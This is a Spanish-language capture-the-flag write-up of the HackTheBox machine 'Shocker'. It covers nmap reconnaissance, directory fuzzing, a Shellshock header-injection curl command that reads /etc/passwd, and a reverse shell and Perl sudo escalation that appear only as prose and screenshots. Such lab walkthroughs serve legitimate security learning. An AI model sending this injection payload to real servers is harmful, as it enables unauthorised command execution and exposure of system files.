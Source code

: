 ```yaml
---
title: "HackTheBox - Shocker"
layout: single
excerpt: Esta máquina me gusto mucho a pesar de su facilidad a la hora de completarla, su título te da el vector de ataque.
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/124369575-53c69000-dc6d-11eb-83db-4b4caea04ddc.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/124369575-53c69000-dc6d-11eb-83db-4b4caea04ddc.png"
categories:
  - HackTheBox
tags:
  - Write Up
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/124386453-c9b51080-dcda-11eb-8bce-8093fe92bc76.png">
</p>

Comence efecutando un escaneo con `Nmap` para identificar los puertos abiertos de la maquina.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -v -Pn -n 10.10.10.56 -oG allPorts 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Initiating SYN Stealth Scan at 15:48
Scanning 10.10.10.56 [1000 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed SYN Stealth Scan at 15:48, 0.47s elapsed (1000 total ports)
Nmap scan report for 10.10.10.56
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.56 seconds
           Raw packets sent: 1038 (45.672KB) | Rcvd: 1018 (40.728KB)
```

Tambien hice otro escaneo para verificar la version y servicio de cada puerto abierto.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p80,2222 10.10.10.56 -oN targeted            
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-03 15:48 CEST
Nmap scan report for 10.10.10.56
Host is up (0.047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.31 seconds
```

Al parecer solo tenía dos puertos, empece por el servidor web, poco podía hacer en el servicio SSH, se veía esto.

![primera (1)](https://user-images.githubusercontent.com/69093629/124386681-d5ed9d80-dcdb-11eb-93dd-7f6951fceb66.png)

No encontré, nada por lo que recurrí a hacer un "fuzzing" con  `WZFuzz`.

![miherramienta](https://user-images.githubusercontent.com/69093629/124386715-f74e8980-dcdb-11eb-8ffb-9591b5ab20c7.png)

Encontré un `/cgi-bin/`, esto parecía un `shellshock` en toda regla, fuzze con `wfuzz`, para ver si podía encontrar un script en bash.

![fuzzer](https://user-images.githubusercontent.com/69093629/124386763-35e44400-dcdc-11eb-9387-501de5ea0565.png)

Y si, encontré un script llamado `user.sh`, para confirmar que era un `shellshock` hice uso del script [exploit-deface.sh](https://raw.githubusercontent.com/opsxcq/exploit-CVE-2014-6271/master/exploit-deface.sh) y efectivamente era vulnerable a `shellshock`, ejecute el siguiente comando enviando una petición por GET por `curl` para ver si me devolvía el  `/etc/hosts`.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"
```

Si, me devolvió el contenido del  `/etc/hosts`, ahora solo faltaba acceder a la máquina, me entable una reverse Shell por "netcat" por el puerto `443` y accedí.

![ypadentro](https://user-images.githubusercontent.com/69093629/124386921-ee11ec80-dcdc-11eb-97b5-e2650c100612.png)

Ahora solo faltaba la escalada de privilegios, para ello hice  `sudo -l`, vi que podía ejecutar Perl con privilegios `root`, me dirigí a [gftobing](https://gtfobins.github.io/) para ver si podía escalar privilegios de alguna manera con Perl, al parecer si podía.

![Captura de pantalla (650)](https://user-images.githubusercontent.com/69093629/124387071-6aa4cb00-dcdd-11eb-900c-dfa65fa1d770.png)

Ejecute el comando con `sudo` y me otorgo permisos de superusuario.

![ypadentro2](https://user-images.githubusercontent.com/69093629/124387098-81e3b880-dcdd-11eb-9d8d-657e81eafc75.png)

 
 
